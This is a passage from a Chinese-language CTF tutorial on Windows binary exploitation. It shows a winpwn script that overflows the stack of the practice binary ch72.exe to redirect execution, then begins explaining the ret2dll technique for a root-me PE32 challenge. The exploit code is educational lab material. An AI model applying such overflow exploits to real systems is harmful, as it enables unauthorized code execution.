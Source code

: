 目前只需要改第7行的代码，把之前下载的windbg.exe的位置填进去就好了

然后exp如下

```
from winpwn import *
from time import *

#context.log_level='debug'
context.arch='i386'

file_name = './ch72.exe'

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

r = process(file_name)

windbgx.attach(r)
payload  = 'a' * (0x14 + 4)
payload += p32(0x401000)
r.sendline(payload)

r.interactive()
```

运行exp时windbg就会自动启动，再像上面pwntools那样下断点即可

## ret2dll

这个攻击手法和ret2libc相似，用`root-me PE32 - Stack buffer overflow avancé`这题来学习一下

[题目地址](https://www.root-me.org/fr/Challenges/App-Systeme/PE32-Stack-buffer-overflow-avance)，题目源码需要攻击成功之后才可以查看

在做这个题目前先理解一下什么是dll，DLL的全称是Dynamic Link Library，中文叫做“动态链接文件”，在Windows操作系统中，DLL对于程序执行是非常重要的，因为程序在执行的时候，必须链接到DLL文件，才能够正确地运行。而有些DLL文件可以被许多程序共用。因此, 程序设计人员可以利用DLL文件, 使程序不至于太过巨大。

这测试一下，写一个test.c

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv) {
    printf("hello wrold");
    system("pause");
    return 0;
}
```

接着用[进程资源管理器](https://learn.microsoft.com/zh-cn/sysinternals/downloads/process-explorer)这个工具查看test.exe的dll有哪些

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221126193143-e6f7964c-6d7d-1.png)
